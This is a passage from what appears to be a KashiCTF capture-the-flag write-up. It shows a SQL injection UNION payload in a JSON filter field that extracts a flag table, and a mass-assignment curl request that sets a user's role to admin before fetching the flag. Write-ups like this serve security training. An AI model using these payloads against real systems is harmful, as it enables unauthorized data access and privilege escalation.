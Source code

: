 ```web
POST /api/list-v2 HTTP/1.1
Host: kashictf.iitbhucybersec.in:6619
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kashictf.iitbhucybersec.in:6619/v2-testing
Content-Type: application/json
Content-Length: 106
Origin: http://kashictf.iitbhucybersec.in:6619
Connection: keep-alive
Cookie: session=caf62b89-3555-4188-be8c-ea9379bd7e7d.d-XmBhNu0KeC4wOAuoargANfRms

{"filter":"1' UNION SELECT null,null,null,null,GROUP_CONCAT(secret_flag),sqlite_version() FROM flags-- -"}
```

response
```json
[{"employee_name":null,"request_detail":null,"status":null,"department":null,"role":"KashiCTF,{b0r1ng_o,ld_c0rp0,_l1f3_am_,1_r1gh7_,AJQNhPAw}","email":"3.44.2"}]
```

## SuperFastAPI
Made my verty first API!

However I have to still integrate it with a frontend so can't do much at this point lol.

### solution
Just some API documentation exposed, update profile is vulnerable to mass assignment  


![](_attachments/Pasted%20image%2020250223150547.png)

An attacker can simply update the role and then get the flag 

```bash
curl -X 'PUT' \
  'http://kashictf.iitbhucybersec.in:49173/update/john' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "fname": "John",
  "lname": "Doe",
  "email": "john.doe@example.com",
  "gender": "male"
   "role": "admin"
}'
```

flag 
```bash
curl -X 'GET' \
  'http://kashictf.iitbhucybersec.in:49173/flag/john' \
  -H 'accept: application/json'
```
KashiCTF{m455_4551gnm3n7_ftw_hgKBgYzSX}
